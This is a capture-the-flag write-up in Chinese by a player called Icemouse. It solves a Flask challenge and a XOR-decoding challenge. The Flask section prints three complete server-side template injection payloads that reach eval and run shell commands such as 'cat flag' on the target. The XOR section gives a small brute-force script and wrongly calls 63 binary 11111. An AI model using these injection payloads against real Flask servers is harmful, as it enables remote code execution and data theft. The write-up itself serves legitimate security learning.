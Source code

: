 ### 个人信息
选手名称：Icemouse

解题列表：

               web            <font style="color:#000000;">easy_flask</font>

<font style="color:#000000;">                misc             简单算数</font>

<font style="color:#000000;"></font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">解题过程</font>
#### easy_flask
题目提示 猜测该网站用的是Flask框架

打开靶机后有个登录页面 提示要输入用户名

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737096628973-3378a9dd-8e15-4acc-867a-39c7a7aa29a9.png)

随便输入个admin去尝试

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737096712716-31094b9b-8423-4913-ad05-c2b0aa569f77.png)

看到地址接收user参数 尝试注入

```php
?user={{config}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737096822936-fb6c4ea7-a607-4d37-b004-ecd4c3bee564.png)

确定存在目标注入漏洞，于是构造payload 列出根目录下文件

```php
?user={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22ls%20/%22).read()%27)%20}}%20%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737096964983-78967cbe-86f8-42bf-96df-bb050337d426.png)

没有发现flag文件 接着列出网站目录下文件

```php
?user={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22ls%22).read()%27)%20}}%20%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737097067154-86a65806-809a-45cb-9b61-7c9fe08b8d54.png)

发现flag文件 接着构造payload读取flag

```php
?user={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22cat%20flag%22).read()%27)%20}}%20%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737097127956-5b25f89d-9db5-4a25-b451-d0e7009f3a09.png)

#### 简单算数
题目提示和异或有关 打开文件后发现是一串奇怪的字符串

```php
ys~xdg/m@]mjkz@vl@z~lf>b
```

尝试将字符串进行异或处理 但是不清楚要和哪个数字异或 于是编写脚本先尝试300以内的数字

```php
import base64

s1 = list(b'ys~xdg/m@]mjkz@vl@z~lf>b')

for i in range(300):   # 进行穷举的数字可高可低
    result = ""
    for j in range(len(s1)):
        result += chr(s1[j] ^ i)
    print(result)
    print(i)
```

发现与数字63异或时 会出现flag字样 由于python终端有些符号没显示出来 但是我们已经确定异或数字为63   接着利用工具CyberChef解码

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737097499508-9a3c783a-1779-44a5-8127-03246b12d737.png)

由于63的二进制为11111 所以解码得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737097736779-0eba1a2a-4ef9-45c1-9714-22904e5350ae.png)



